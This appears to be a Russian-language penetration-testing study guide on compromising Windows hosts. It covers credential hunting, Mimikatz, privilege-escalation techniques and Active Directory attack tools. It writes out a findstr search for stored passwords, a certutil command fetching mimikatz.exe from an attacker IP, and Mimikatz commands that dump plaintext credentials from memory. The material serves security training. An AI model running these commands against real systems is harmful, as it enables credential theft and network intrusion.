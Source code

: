 ### Компрометация Windows-машин в сети

## **Материалы для самостоятельного изучения**

- [Памятка](https://github.com/frostbits-security/MITM-cheatsheet) по атакам MITM
- [Телеграмм канал](https://t.me/c4s73r_channel) Магамы Базарова - эксперта по сетевым атакам
- [Responder](https://github.com/lgandx/Responder)
- [Все об атаках](https://blog.redforce.io/windows-authentication-and-attacks-part-1-ntlm/) на аутентификацию в Windows
- [О работе атаки](https://en.hackndo.com/ntlm-relay/) NTLM Relay


# Извлечение секретов и учетных данных
## Яркими представителями этой категории являются следующие методы повышения привилегий:
- Взлом менеджеров паролей пользователей по причине небезопасной конфигурации
- Обнаружение секретов и учетных в логах и истории команд
- Извлечение учетных данных из оперативной памяти
- Доступ к файлу, хранящемуся хеши пользовательских паролей 
- Извлечение учетных данных из конфигурации Групповых Политик

# Поиск секретов и паролей в ОС
В первую очередь мы помним, что можно попытаться самостоятельно поискать пароли в различных файлах ОС при помощи команд терминальной оболочки, например:

cd C:\ & findstr /s /p /i /n /m "password" *.xml *.ini *.txt *.config

Эта команда выполняет поиск строки "password" внутри всех файлов с расширениями .xml, .ini, .txt и .config в текущем диске C:.

Более подробно, каждая часть команды выполняет следующие действия:
cd C:\ — переходит в корневую папку диска C:
findstr — команда для поиска строк в файлах
/s — выполняет поиск строк во всех подпапках
/p — пропускает файлы с непечатными символами
/i — игнорирует регистр символов при поиске строк
/n — выводит номер строки, содержащей строку
/m — выводит только имя файла, если файл содержит совпадение


# Извлечение учетных данных из оперативной памяти
Самым ярким примером здесь будет извлечение учетных данных из оперативной памяти процессов.
Факт:
В Windows для реализации механизма HTTP Digest Authentication для поддержки SSO (Single Sign On) требуют знание вводимого пароля, а не только его хеша. Поэтому разработчики Windows решили хранить пароли пользователей в открытом виде. Для извлечения паролей и хешей из оперативной памяти можно использовать инструмент Mimikatz.


# Mimikatz — инструмент, реализующий функционал Windows Credentials Editor и позволяющий извлекать учетные данные пользователей Windows.
Дополнительную информацию по данному инструменту можно получить по следующим ссылкам: \
• Что такое Mimikatz: руководство для начинающих — https://habr.com/ru/company/varonis/blog/539340/ \
•  Справка по mimikatz — https://kali.tools/?p=5342

# Применение Mimikatz
•  Для загрузки инструмента mimikatz необходимо перейти в папку с правами на запись, например в C:\Windows\System32\spool\drivers\color. \
•  Далее следует загрузить mimikatz на целевую машину. Это можно сделать утилитой, позволяющей скачивать файл по сети certutil: certutil -urlcache -split -f http://10.10.14.16/mimikatz.exe m.exe \
•  После запуска Mimi нужно указать следующую команду, которая предоставит текущей учетной записи права отладки процессов (SeDebugPrivilege): privilege::debug \
•  Следующая команда вернет список всех хранящихся на этой машине хешей и паролей в виде незашифрованного текста:sekurlsa::logonPasswords \


## Условия для Mimikatz
Для того, чтобы Mimikatz успешно извлёк пароли и хеши, необходимы права SeDebugPrivilege, которые, как правило, есть у Администратора и нечасто встречаются у рядового пользователя. Тем не менее, процедура извлечения учётных данных из памяти необходима в рамках проведения работ по пентесту для возможности как вертикального, так и горизонтального перемещения.



# Эксплуатация уязвимостей конфигурации ОС Windows
В этой категории яркими примерами возможных методов повышения привилегий будут следующие: \
• Повышение привилегий через права на создание резервных копий (SeBackupPrivilege) \
• Повышение привилегий через через перехват сервиса (Weak Services Permission) \
• Повышение привилегий через имперсонификацию SeImpersonatePrivilege (JyicyPotato) \
• Повышение привилегий через права на установку ПО (AlwaysInstallElevated) \
• Повышение привилегий через изменение пути бинарного файла сервиса (Service Binary Path) \
• Повышение привилегий через подмену DLL библиотек (DLL Hijacking) \
• Повышение привилегий через неэкранированные пути сервисов (Unquoted Service Paths) \


# Эксплуатация известных уязвимостей ОС Windows
Приведем пример некоторых достаточно популярных уязвимостей ОС, позволяющих повысить привилегии до максимальных: \
• Уязвимость в установщике Windows (InstallerFileTakeOver (0day) \
• Уязвимость в Windows Print Spooler (PrintNightmare) \
• Уязвимость в планировщике задач Windows (MS10-092) \
• Уязвимость в ядре Windows (MS16_014) \
• Обработка вторичного входа в систему (MS16-032) \


# Рекомендуемые ресурсы
• Hacktrics: https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation

# Active Directory:
• Чеклист по тестированию защищенности Active Directory:  \
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology \
• Эксплуатация Zerologon:  \
https://medium.com/mii-cybersec/zerologon-easy-way-to-take-over-active-directory-exploitation-c4b38c63a915 \
• Эксплуатация уязвимостей в AD CS \
https://posts.specterops.io/certified-pre-owned-d95910965cd2 \

Помимо блогов, предлагаем вам подборку отличных инструментов, ориентированных на Active Directory, которые не только полезны, но и могут позволить вам изучить множество механизмов и протоколов Active Directory, просмотрев их код (это далеко не исчерпывающий список, и многие другие перечислены и показаны в статье выше). \
• [mimikatz](https://github.com/ParrotSec/mimikatz):  вероятно, самый известный инструмент для атаки на Windows и Active Directory. Он реализует на C все виды атак для получения учетных данных с компьютеров Windows и выдачи себя за пользователей в Active Directory. \
• [impacket](https://github.com/fortra/impacket): Impacket реализует многие из протоколов на python, и стоит знать, как это работает, чтобы узнать о них больше. Он также включает в себя множество примеров, реализующих атаки, описанные в статье. \
• [responder.py](https://github.com/SpiderLabs/Responder): Responder позволяет вам выполнять множество PitM-атак, злоупотребляя протоколами разрешения Windows и предоставляя вам множество серверов протоколов, которые будут собирать NTLM-хэши. Стоит знать, как это работает. \
• [Rubeus](https://github.com/GhostPack/Rubeus): Rubeus – это пакет C# для выполнения атак Kerberos с компьютеров под управлением Windows. Вы можете проверить это, чтобы узнать много нового о том, как работает Kerberos. \
• [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec): CME – это инструмент на python, который позволяет вам простым способом выполнять множество различных атак, описанных здесь. \
• [BloodHound](https://github.com/BloodHoundAD/BloodHound): BloodHound позволяет вам сопоставлять сеть Active Directory с множеством различных запросов LDAP и другими. Вам следует проверить это, если вы хотите узнать о разведке Active Directory. \
• [Powerview](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1): инструмент Powershell, который реализует множество LDAP-запросов Active Directory и других протоколов для извлечения всех видов информации из Active Directory. \
• [Empire](https://github.com/EmpireProject/Empire): набор для развертывания агентов на компьютерах Active Directory, который позволяет выполнять все виды атак. Содержит множество инструментов для выполнения разведки и атак через Active Directory, которые стоит проверить. \
